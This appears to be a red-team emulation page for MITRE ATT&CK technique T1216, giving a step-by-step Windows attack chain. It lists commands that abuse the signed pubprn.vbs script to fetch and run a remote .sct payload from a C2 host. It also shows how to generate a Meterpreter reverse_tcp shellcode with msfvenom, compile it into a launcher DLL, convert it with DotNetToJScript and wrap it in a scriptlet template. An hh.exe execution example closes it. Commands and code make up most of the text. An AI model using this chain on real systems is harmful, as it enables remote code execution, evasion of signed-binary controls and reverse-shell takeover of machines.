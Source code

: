 # Signed Script Proxy Execution

---
* **ID**: T1216
* **Source**: <https://attack.mitre.org/techniques/T1216/>
---

# Details

## pubprn.vbs
### Execute remote payload in JavaScript
* OS: Windows 7 / Windows 2008 R2 (Version 6.1), Windows 8.1 / Windows 2012 R2 (Version 6.3), Windows 10 / Windows 2016 (Version 1607)
* Methods:
  * Option 1:
  ```
   C:\Windows\SysWOW64\CScript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```
  * Option 2:
  ```
  C:\Windows\SysWOW64\CScript.exe /b C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```

### Create payload (.sct) in JavaScript for Meterpreter

* Compile CSharp source code [`shellcode.cs`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs) to DLL:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -unsafe -platform:x86 -target:library shellcode.cs
```
*	Generate a x86 shellcode in base64 format, e.g. meterpreter:
```
msfvenom -p windows/meterpreter/reverse_tcp --smallest -a x86 --platform win LHOST=<ip_of_C2> LPORT=<port_of_C2> -f raw | base64
```
*	Replace parameter code in [`cmd.txt`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt)  with the shellcode in base64 format
*	Leverage [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)  to convert DLL `shellcode.dll` into JS file `payload.js`:
```
C:\Users\win7x64\Desktop\release_v1.0.4\DotNetToJScript.exe -c ShellCodeLauncher.Program -v v4 -s C:\Tools\cmd.txt -o c:\Tools\payload.js c:\Tools\shellcode.dll
```
*	Copy the content of JS file `payload.js` and insert into the code below:
```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="PoC"
    progid="PoC"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
    <![CDATA[
        // Insert the content of JS file "payload.js" here
        <content_of_payload_js>
    ]]>
</script>
</scriptlet>
```
* Save the aforementioned code as a file (e.g. `payload.sct`)

## hh.exe
### Execute
Executes `calc.exe` with HTML Help.
```
hh.exe c:\windows\system32\calc.exe
```
* Usecase: Execute process with `hh.exe`
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

# References

* <https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/>
* <https://evi1cg.me/archives/remote_exec.html>
* <https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct>
* <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1216/T1216.md>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt>
* <https://github.com/tyranid/DotNetToJScript>
* <https://lolbas-project.github.io/lolbas/Binaries/Hh/>
